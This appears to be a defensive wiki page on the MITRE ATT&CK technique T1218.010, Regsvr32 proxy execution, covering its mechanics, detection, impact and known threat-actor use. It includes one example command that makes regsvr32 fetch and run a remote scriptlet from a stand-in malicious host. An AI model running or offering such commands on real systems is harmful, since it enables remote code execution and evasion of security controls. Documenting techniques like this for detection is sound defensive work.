 ```yaml
---
description: Regsvr32 [T1218.010]
icon: lock
---
```


# Regsvr32

## Information

* Name: Regsvr32
* ID: T1218.010
* Tactics: [TA0005](../)
* Technique: [T1218](./)

## Introduction

Regsvr32 (T1218.010) is a sub-technique within the MITRE ATT\&CK framework under the broader category of "Signed Binary Proxy Execution." Attackers leverage Regsvr32, a legitimate Windows command-line utility, to execute arbitrary code, bypass application whitelisting, and evade detection by security mechanisms. Regsvr32 is primarily designed to register and unregister Object Linking and Embedding (OLE) controls, such as DLL files, in the Windows registry. However, adversaries abuse this legitimate functionality to execute malicious scripts without directly calling suspicious binaries or executables.

## Deep Dive Into Technique

Regsvr32 is a legitimate Windows utility typically located at `%SystemRoot%\System32\regsvr32.exe`. It is designed to register and unregister DLL files and ActiveX controls into the Windows registry, enabling their use by other applications. Attackers exploit Regsvr32's built-in capability to execute scripts remotely or locally, making it a powerful tool for circumventing security controls.

Technical details include:

* **Execution Method:**
  * Attackers use the `/i` option to specify a DLL or script file.
  * The `/s` switch can be used to suppress error messages and dialogs, making execution stealthy.
  * Regsvr32 can be instructed to download and execute scripts directly from remote URLs, allowing attackers to host malicious payloads externally.
*   **Example Command Syntax:**

    ```cmd
    regsvr32.exe /s /u /i:http://malicious.example.com/payload.sct scrobj.dll
    ```

    Explanation of parameters:

    * `/s`: Silent mode, suppresses error messages.
    * `/u`: Unregisters the DLL; in combination with `/i`, it allows execution without actual registration.
    * `/i`: Specifies the script or DLL to execute.
    * `scrobj.dll`: Microsoft’s script component runtime DLL, commonly used by attackers to execute scriptlets (.sct files).
* **Mechanisms and Real-World Procedures:**
  * Attackers commonly host malicious COM scriptlets (.sct files) remotely to bypass local detection.
  * Payloads executed via Regsvr32 can include malware downloaders, reverse shells, or other malicious scripts.
  * The technique leverages legitimate Windows binaries ("living off the land") to evade endpoint security tools.

## When this Technique is Usually Used

Attackers commonly leverage Regsvr32 (T1218.010) in various stages of the cyberattack lifecycle, including:

* **Initial Access and Execution:**
  * Phishing campaigns delivering malicious scripts or documents that invoke Regsvr32 commands.
  * Drive-by download attacks where users inadvertently execute scripts that invoke Regsvr32.
* **Defense Evasion:**
  * Bypassing application whitelisting and execution policies, as Regsvr32 is typically allowed by default.
  * Evading detection by leveraging legitimate Windows utilities rather than suspicious executables.
* **Persistence and Lateral Movement:**
  * Attackers may use Regsvr32 commands within scheduled tasks or registry keys for persistent execution.
  * Leveraged during lateral movement to execute code remotely across compromised systems.

## How this Technique is Usually Detected

Detecting the misuse of Regsvr32 involves monitoring and logging its execution patterns and behaviors. Effective detection methods include:

* **Command Line Monitoring:**
  * Implementing endpoint detection and response (EDR) tools to monitor and analyze command-line arguments passed to `regsvr32.exe`.
  * Detecting suspicious parameters such as `/u`, `/i`, and remote URLs in command execution.
* **Process Monitoring and Behavioral Analysis:**
  * Monitoring parent-child process relationships involving `regsvr32.exe`.
  * Alerting on unusual network connections initiated by Regsvr32, especially to external IP addresses or domains.
* **Network Traffic Analysis:**
  * Monitoring outbound HTTP/HTTPS connections initiated by Regsvr32 to external URLs.
  * Identifying downloads of scriptlets (.sct files) or DLL files from suspicious or uncategorized domains.
* **Indicators of Compromise (IoCs):**
  * Suspicious command-line parameters involving remote URLs (e.g., `/i:http://`).
  * Unusual scriptlet (.sct) files or DLLs hosted remotely.
  * Unexpected network requests from Regsvr32 to external IP addresses or domains.

## Why it is Important to Detect This Technique

Early detection of Regsvr32 misuse is critical due to its potential impacts on systems and networks, including:

* **Bypassing Security Controls:**
  * Attackers exploit trusted system utilities, circumventing traditional antivirus, application whitelisting, and endpoint security solutions.
* **Enabling Malware Delivery and Execution:**
  * Allows attackers to download and execute malicious payloads remotely, facilitating further compromise, data exfiltration, or ransomware deployment.
* **Persistence and Stealth:**
  * Attackers may establish persistent footholds, making detection and remediation significantly more challenging.
  * Abuse of legitimate binaries reduces the likelihood of detection, prolonging attacker dwell time and increasing potential damage.
* **Potential for Rapid Lateral Movement:**
  * Regsvr32 abuse can facilitate lateral movement across internal networks, increasing the scope and severity of a breach.

## Examples

Real-world examples of Regsvr32 misuse include:

* **APT32 (OceanLotus):**
  * Utilized Regsvr32 to execute remote scriptlets hosted on attacker-controlled servers, bypassing endpoint protections.
  * Delivered malicious payloads to targeted organizations in Southeast Asia.
* **FIN7 Cybercrime Group:**
  * Used Regsvr32 commands embedded in malicious documents or scripts to download and execute payloads, enabling initial access and subsequent lateral movement within victim environments.
* **PowerDuke Malware Campaign:**
  * Leveraged Regsvr32 to execute scriptlets (.sct files) hosted remotely, enabling stealthy malware delivery and execution on targeted systems.
* **"Squiblydoo" Technique:**
  * Publicly documented by security researcher Casey Smith, demonstrating how attackers could abuse Regsvr32 to execute malicious scripts remotely, bypassing application whitelisting and endpoint security solutions.

In these examples, attackers exploited legitimate Windows utilities to evade detection, execute malicious payloads, and establish persistent access within victim environments.

